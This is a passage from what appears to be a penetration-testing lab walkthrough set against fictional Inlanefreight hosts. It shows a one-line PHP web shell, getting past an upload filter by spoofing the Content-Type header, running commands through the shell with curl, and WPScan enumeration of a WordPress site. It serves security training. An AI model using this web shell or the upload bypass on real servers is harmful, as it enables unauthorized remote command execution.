 <pre><code class="language-php">&lt;?php system($_GET['cmd']); ?&gt;
</code></pre>
<p>Save the file as <code>5351bf7271abaa2267e03c9ef6393f13.php</code> or something similar. It's a good practice to create random file names when uploading a web shell to a public-facing website so a random attacker doesn't happen upon it. In our case, we'd want to use something password protected or restricted to our IP address since directory listing is enabled, and anyone could browse to the <code>/uploads</code> directory and find it. Attempting to upload the <code>.php</code> file directly results in an error: "<code>JPG, JPEG, PNG &amp; GIF files are allowed.</code>", which shows that some weak client-side validation is likely in place. We can grab the POST request, send it to Repeater once again and try modifying the <code>Content-Type:</code> header in the request to see if we can trick the application into accepting our file as valid. We'll try altering the header to <code>Content-Type: image/png</code> to pass off our web shell as a valid PNG image file. It works! We get the following response: <code>File uploaded /uploads/5351bf7271abaa2267e03c9ef6393f13.php</code>.</p>
<p>We can now use <code>cURL</code> to interact with this web shell and execute commands on the web server.</p>
<pre><code class="language-shell-session">[!bash!]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<p>Checking the host's IP addressing, it doesn't appear that we've landed inside the Inlanefreight internal network as the IP address is not within the internal network scope. This may just be a standalone web server, so we'll continue on.</p>
<pre><code class="language-shell-session">[!bash!]$ curl http://dev.inlanefreight.local/uploads/5351bf7271abaa2267e03c9ef6393f13.php?cmd=hostname%20-I

172.18.0.3
</code></pre>
<p>From here, we can enumerate the host further, looking for sensitive data, note down another two findings: <code>HTTP Verb Tampering</code> and <code>Unrestricted File Upload</code>, and move on to the next host.</p>
<hr/>
<h2>ir.inlanefreight.local</h2>
<p>The next target in our list is <code>http://ir.inlanefreight.local</code>, the company's Investor Relations Portal hosted with WordPress. For this we can consult the <a href="https://academy.hackthebox.com/module/113/section/1100">WordPress - Discovery &amp; Enumeration</a> section of the <code>Attacking Common Applications</code> module. Let's fire up <code>WPScan</code> and see what we can enumerate using the <code>-ap</code> flag to enumerate all plugins.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local

&lt;SNIP&gt;

[+] WordPress version 6.0 identified (Latest, released on 2022-05-24).
 | Found By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/feed/, &lt;generator&gt;https://wordpress.org/?v=6.0&lt;/generator&gt;
 |  - http://ir.inlanefreight.local/comments/feed/, &lt;generator&gt;https://wordpress.org/?v=6.0&lt;/generator&gt;

[+] WordPress theme in use: cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Latest Version: 0.7 (up to date)
 | Last Updated: 2022-04-25T00:00:00.000Z
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...